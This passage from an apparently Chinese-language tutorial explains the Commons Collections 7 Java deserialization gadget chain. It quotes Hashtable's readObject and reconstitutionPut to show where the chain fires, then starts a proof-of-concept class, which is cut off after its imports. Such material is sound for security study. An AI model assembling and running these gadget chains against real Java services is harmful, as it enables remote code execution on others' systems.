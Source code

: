 ```java
private void readObject(java.io.ObjectInputStream s)
         throws IOException, ClassNotFoundException
{
    ......
    // Read the number of elements and then all the key/value objects
    for (; elements > 0; elements--) {
        @SuppressWarnings("unchecked")
            K key = (K)s.readObject();
        @SuppressWarnings("unchecked")
            V value = (V)s.readObject();
        // sync is eliminated for performance
        // 重点看这个方法，就是这里触发了漏洞利用
        reconstitutionPut(table, key, value);
    }
    ......
}

private void reconstitutionPut(Entry<?,?>[] tab, K key, V value)
        throws StreamCorruptedException
{
    ......
    // 这个调用了key的hashCode，如果key是构造好的TiedMapEntry攻击链，则会攻击链代码被执行
    int hash = key.hashCode();
    int index = (hash & 0x7FFFFFFF) % tab.length;
    for (Entry<?,?> e = tab[index] ; e != null ; e = e.next) {
        if ((e.hash == hash) && e.key.equals(key)) {
            throw new java.io.StreamCorruptedException();
        }
    }
    // Creates the new entry.
    @SuppressWarnings("unchecked")
        Entry<K,V> e = (Entry<K,V>)tab[index];
    tab[index] = new Entry<>(hash, key, value, e);
    count++;
}
```

如果你对原理不太理解，可以参考CC5中的攻击链构造过程：https://www.cnblogs.com/erosion2020/p/18555069

## POC编写

这里ysoserial的代码写的还是比较繁琐的，这里给出两种写法，其中cc7bySimplify的代码是简化版本的，其中cc7byYsoSerial代码是ysoserial中的代码去掉工具类的版本。

可以先分析cc7bySimplify中的代码，待到有一点感觉后再去分析cc7byYsoSerial，其实代码都是一样的。但是ysoserial写的代码稍微有点绕。

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Hashtable;
import java.util.Map;

public class CommonsCollections7 {
    static String serialFileName = "commons-collections7.ser";
```
